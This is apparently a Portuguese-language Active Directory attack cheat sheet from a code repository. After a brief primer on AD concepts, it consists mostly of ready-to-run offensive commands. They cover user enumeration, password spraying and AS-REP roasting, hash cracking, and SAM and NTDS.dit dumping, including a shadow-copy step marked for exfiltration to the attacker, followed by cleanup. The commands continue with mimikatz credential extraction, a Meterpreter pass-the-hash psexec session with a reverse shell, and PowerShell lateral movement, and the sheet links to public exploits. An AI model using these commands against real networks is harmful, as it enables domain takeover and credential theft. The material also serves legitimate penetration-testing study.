

.oodMMMM
.oodMMMMMMMMMMMMM
..oodMMM MMMMMMMMMMMMMMMMMMM
oodMMMMMMMMMMM MMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMM MMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMM MMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMM MMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMM MMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMM MMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMM MMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMM MMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMM MMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMM MMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMM MMMMMMMMMMMMMMMMMMM
`^^^^^^MMMMMMM MMMMMMMMMMMMMMMMMMM
````^^^^ ^^MMMMMMMMMMMMMMMMM
````^^^^^^MMMM
[ Active Directory ]
[1]Introdução
O Active Directory é uma ferramenta que permite aos administradores de redes criar e gerenciar domínios, usuários e objetos em uma rede.
Por exemplo, um administrador pode formar um grupo de usuários e atribuir a eles privilégios específicos para acessar pastas em um servidor.
À medida que uma rede cresce, o Active Directory ajuda a organizar um grande número de usuários em grupos e subgrupos lógicos, mantendo controle
de acesso em cada nível.
A estrutura do Active Directory tem três partes principais:
1) Domains,
2) Tree.
3) Forest.
Um domínio é um grupo de objetos (como usuários ou dispositivos) que compartilham um mesmo banco de dados.
Múltiplos domínios podem ser agrupados em uma unidade chamada árvore. Diversas árvores podem ser reunidas
em uma estrutura maior chamada forest. Cada nível pode ter direitos de acesso e privilégios de comunicação específicos.
Principais conceitos do Active Directory:
Directory - É onde todas as informações sobre os objetos do Active Directory são armazenadas.
Object - Refere-se a praticamente qualquer elemento dentro do diretório, como um usuário, grupo ou pasta compartilhada.
Domínio - É onde os objetos do diretório estão agrupados. Em uma "floresta," pode haver vários domínios, cada um com sua própria coleção de objetos.
Tree - É um conjunto de domínios com a mesma raiz, como dom.local, email.empresa.local, www.empresa.local.
Forest - representa o nível mais alto na hierarquia organizacional e é composta por um conjunto de árvores que estão conectadas por relações de confiança.
Protocolos Principais do AD:
Para saber explorar precisamos entender bem esses protocolos e como são usados
LDAP (Lightweight Directory Access Protocol)
Kerberos
NTLM (NT LAN Manager)
DNS (Domain Name System)
RPC (Remote Procedure Call)
SMB (Server Message Block)
LDAPS (LDAP over SSL/TLS)
CIFS (Common Internet File System)
Essa imagem Mostra os principais vetores de ataques para explorar um Active Diretory

[2] Enumeração:
Enumeração de AD sem credenciais:
//enumeração de usuario
kerbrute userenum -d empresa.local usernames.txt
outra forma é tentar pegar a hash NTLM por meio de uma autenticação na rede com NTLM Relay
# Responder -I eth0 -A
Enumerar SMB Acessiveis sem cred
# crackmapexec smb 192.168.0.12 -u '' -p ''
# crackmapexec smb 10.10.10.1 -u users.txt -p 12345
# python3 smbmap.py --host-file smb-hosts.txt -d empresa.local -L
Pulverização de senha
Depois de encontrar vários nomes de usuário válidos, você pode tentar as senhas mais comuns
# kerbrute passwordspray -d empresa.local domain_users.txt 123mudar
com os usuarios enumerados podemos testar uma falha de ASREPRoasting do kerberos para pegar Hashs de usuario
# python GetNPUsers.py empresa.local/ -usersfile usernames.txt -format hashcat -outputfile hashes.txt; cat hashes.txt
# crackmapexec ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
para quebrar:
hashcat -m18200 output.txt rockyou.txt
Com a Senha obtida podemos começar a extração de hashs
Dump SAM hashes
# crackmapexec smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam
# crackmapexec smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds
Enumeração de AD com credenciais:
Pass-the-hash
consiste na reutilização de um hash para obter acesso ao controlador de dominio
[*] Meterpreter session 1 opened (192.168.57.139:443 -> 192.168.57.131:1042)
meterpreter > run post/windows/gather/hashdump
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
meterpreter > background
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.57.133
msf exploit(psexec) > set LPORT 443
msf exploit(psexec) > set RHOST 192.168.57.131
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
Remote connexion (RDP, SSH, FTP, Win-RM, etc)
Depois de ter reuinido credenciais nescessarias podemos tentar nos autenticar em alguns serviços
# python3 secretsdump.py test.local/gabriel:123mudar@10.10.10.1
# python3 psexec.py test.local/john:password123@10.10.10.1
# python3 mimikatz.py test.local/john:password123@10.10.10.1
# evil-winrm -i 192.168.1.23 -u john -p senha123
# crackmapexec winrm 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE'
# crackmapexec rdp 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE'
# crackmapexec ftp 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE'
Caso tenha dificuldades em decorar comandos de exploração de AD existe um site no qual voce
passa as informações que possui e ele vai retornar comandos para enumerar ou explorar o AD
https://wadcoms.github.io/
é uma boa pratica testar falhas ja existentes na rede
Exploits para ADs{
ZeroLogon - https://github.com/thatonesecguy/zerologon-CVE-2020-1472 -
BlueKeep - https://github.com/Ekultek/BlueKeep
SMBGhost - https://github.com/jamf/CVE-2020-0796-RCE-POC
PrintNightmare - https://github.com/m8sec/CVE-2021-34527
}
[3] Exploração local:
Apos reunir credencias/hashs ou ter obtido acesso a algum usuario vamos começar a enumeração local
[Reconhecimento de Dominio]
# Obter todos os usuários no domínio atual
Get-DomainUser | select -ExpandProperty cn
# Obter todos os computadores no domínio atual
Get-DomainComputer
# Obter todos os domínios na floresta atual
Get-ForestDomain
# Obter trusts de domínio/floresta
Get-DomainTrust
Get-ForestTrust
# Obter informações para o grupo DA (Administradores de Domínio)
Get-DomainGroup "Administradores de Domínio"
# Encontrar membros do grupo DA
Get-DomainGroupMember "Administradores de Domínio" | select -ExpandProperty membername
# Encontrar compartilhamentos interessantes no domínio, ignorar compartilhamentos padrão e verificar acesso
Find-DomainShare -ExcludeStandard -ExcludePrint -ExcludeIPC -CheckShareAccess
# Obter UOs (Unidades Organizacionais) para o domínio atual
Get-DomainOU -FullData
# Obter computadores em uma UO
# %{} é uma declaração de loop
Get-DomainOU -name Servidores | %{ Get-DomainComputer -SearchBase $_.distinguishedname } | select dnshostname
# Obter GPOs (Objetos de Política de Grupo) aplicados a uma UO específica
Get-DomainOU *WS* | select gplink
Get-DomainGPO -Name "{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}"
# Obter Grupos Restritos configurados via GPOs, procurar por membros de grupos interessantes forçados por domínio
Get-DomainGPOLocalGroup -ResolveMembersToSIDs | select GPODisplayName, GroupName, GroupMemberOf, GroupMembers
# Obter os computadores onde os usuários fazem parte de um grupo local através de um grupo restrito de GPO
Get-DomainGPOUserLocalGroupMapping -LocalGroup Administradores | select ObjectName, GPODisplayName, ContainerName, ComputerName
# Encontrar princípios que podem criar novas GPOs no domínio
Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=targetdomain,DC=com" -ResolveGUIDs | ?{ $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier
# Encontrar princípios que podem vincular GPOs às UOs
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier
# Obter ACLs de entrada para um objeto específico
Get-DomainObjectAcl -SamAccountName "Administradores de Domínio" -ResolveGUIDs | Select IdentityReference,ActiveDirectoryRights
# Encontrar ACLs interessantes para todo o domínio, mostradas em um formato legível (da esquerda para a direita)
Find-InterestingDomainAcl | select identityreferencename,activedirectoryrights,acetype,objectdn | ?{$_.IdentityReferenceName -NotContains "DnsAdmins"} | ft
# Obter ACLs de saída interessantes para um usuário ou grupo específico
# ?{} é uma declaração de filtro
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReference -match "Administradores de Domínio"} | select ObjectDN,ActiveDirectoryRights
Extração de NTDS.dit
mkdir c:\extract
REM -> c:\Windows\system32
vssadmin create shadow /for=c:
copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy5\Windows\ntds\ntds.dit c:\extract\ntds.dit
reg SAVE HKLM\SYSTEM c:\extract\SYS
REM yes
REM exfiltrate to your attacker computer
REM housekeeping
vssadmin delete shadows /shadow={PATH} /Quiet
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
hashcat -m 1000 NTDS.txt /usr/share/wordlists/rockyou.txt -o cracked
Movimentação Lateral
Comunicação Remota do PowerShell
#Habilitar a comunicação remota do PowerShell no computador atual (precisa de acesso de administrador)
Enable-PSRemoting
Inserindo ou iniciando um novo PSSession (Precisa de acesso de administrador)
$sess = New-PSSession -ComputerName
Enter-PSSession -ComputerName OR -Sessions
Execução remota de código com credenciais PS
$SecPassword = ConvertTo-SecureString '' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\', $SecPassword)
Invoke-Command -ComputerName -Credential $Cred -ScriptBlock {whoami}
Importar um módulo do PowerShell e executar suas funções remotamente
Invoke-Command -Credential $cred -ComputerName -FilePath c:\FilePath\file.ps1 -Session $sess
Enter-PSSession -Session $sess
Executando comandos com monitoração de estado remota
$sess = New-PSSession -ComputerName
Invoke-Command -Session $sess -ScriptBlock {$ps = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$ps}
Bom com isso voce ja tem uma boa base para iniciar seus estudos de AD, e lembrese
“Conhecimento não é aquilo que você sabe, mas o que você faz com aquilo que você sabe.” — Aldous Huxley
made by kasparov.
[6] Referencias:
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference